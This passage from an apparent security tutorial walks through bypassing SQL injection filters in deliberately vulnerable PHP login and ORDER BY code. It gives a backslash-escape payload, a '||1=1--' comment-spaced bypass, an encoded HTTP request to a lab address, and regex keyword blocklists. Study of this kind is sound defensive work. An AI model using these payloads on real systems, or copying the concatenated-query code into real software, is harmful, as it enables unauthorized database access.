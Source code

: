 The next test case is a little trickier, it filters the same characters
as before plus the single quote character. Also, it removes the use of
the prepared statement in the username variable but validates the single
quote character too.

**Second SQLi filter.**

``` PHP
if(preg_match('/\'/', $user)) exit("<script type='text/javascript'>alert('Wrong');</script>");
if(preg_match('/or|and| |\'/i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
$sql = "SELECT * FROM users WHERE user = '$user' and passwd = '$pass'";
```

So, what can we do to bypass this? The backslash character `\` is a
special escape character used to indicate other special characters in
strings. This is useful in our case because if we inject that character
into the username input, then the single quote character next to it will
act as a literal one, and the username string will end next to the
password input:

**Backslash example.**

``` PHP
$sql = "SELECT * FROM users WHERE user = '$user\' and passwd = '$pass'";
```

It’s just a matter of injecting our code there; the payload in the
username will be `\`, and in the password field it will be
`/**/||/**/1=1/**/--`

**second bypass.**

``` text
    GET /code/two.php?user=%5C&password=%2F**%2F%7C%7C%2F**%2F1%3D1%2F**%2F--&s=OK HTTP/1.1
    Host: 192.168.56.2
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://192.168.56.2/code/two.php
    Upgrade-Insecure-Requests: 1
```

The last example combines everything and adds more filters to the code;
it is a different type of vulnerability because we are going to bypass
the filter into an `ORDER BY` keyword.

**Third SQLi filter.**

``` PHP
if(preg_match('/\'|"|=|admin|substr|concat|group|ascii|or|and| |-|#|\s|\/\\\\|like|0x|col|case|when|sleep|benchmark/i',$_GET["by"])) exit("<script type='text/javascript'>alert('Wrong');</script>");
...
$stmt = $link->prepare("SELECT * FROM product where name like ? order by $order desc");
```
